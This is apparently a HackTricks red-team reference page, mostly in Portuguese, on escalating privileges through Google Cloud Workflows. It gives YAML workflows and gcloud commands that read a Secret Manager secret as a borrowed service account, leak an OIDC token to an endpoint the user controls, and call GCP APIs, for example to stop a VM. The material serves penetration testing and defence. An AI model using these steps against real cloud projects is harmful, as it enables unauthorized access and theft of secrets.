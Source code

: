 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

Informações Básicas:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Até onde sei, não é possível obter um shell com acesso ao endpoint de metadados contendo as credenciais da SA atacada a um Workflow. No entanto, é possível abusar das permissões da SA adicionando as ações a serem realizadas dentro do Workflow.

É possível encontrar a documentação dos conectores. Por exemplo, esta é a [**página do conector Secretmanager**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** Na barra lateral, é possível encontrar vários outros conectores.

E aqui você pode encontrar um exemplo de um conector que imprime um segredo:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
Atualização a partir da CLI:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
Se você receber um erro como `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist`, apenas **espere um minuto e tente novamente**.

Se você não tiver acesso à web, é possível acionar e ver a execução de um Workflow com:

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
Você também pode verificar a saída de execuções anteriores para procurar informações sensíveis
{% endhint %}

Note que mesmo se você receber um erro como `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` porque você não tem essa permissão, o fluxo de trabalho foi gerado.

### Vazamento de token OIDC (e OAuth?)

De acordo com [**a documentação**](https://cloud.google.com/workflows/docs/authenticate-from-workflow), é possível usar etapas de fluxo de trabalho que enviarão uma solicitação HTTP com o token OAuth ou OIDC. No entanto, assim como no caso do [Cloud Scheduler](gcp-cloudscheduler-privesc.md), a solicitação HTTP com o token Oauth deve ser para o host `.googleapis.com`.

{% hint style="danger" %}
Portanto, é **possível vazar o token OIDC indicando um endpoint HTTP** controlado pelo usuário, mas para vazar o **token OAuth** você precisaria de **um bypass** para essa proteção. No entanto, você ainda pode **contatar qualquer API GCP para realizar ações em nome da SA** usando conectores ou solicitações HTTP com o token OAuth.
{% endhint %}

#### Oauth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

Com esta permissão em vez de `workflows.workflows.create`, é possível atualizar um fluxo de trabalho já existente e realizar os mesmos ataques.

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
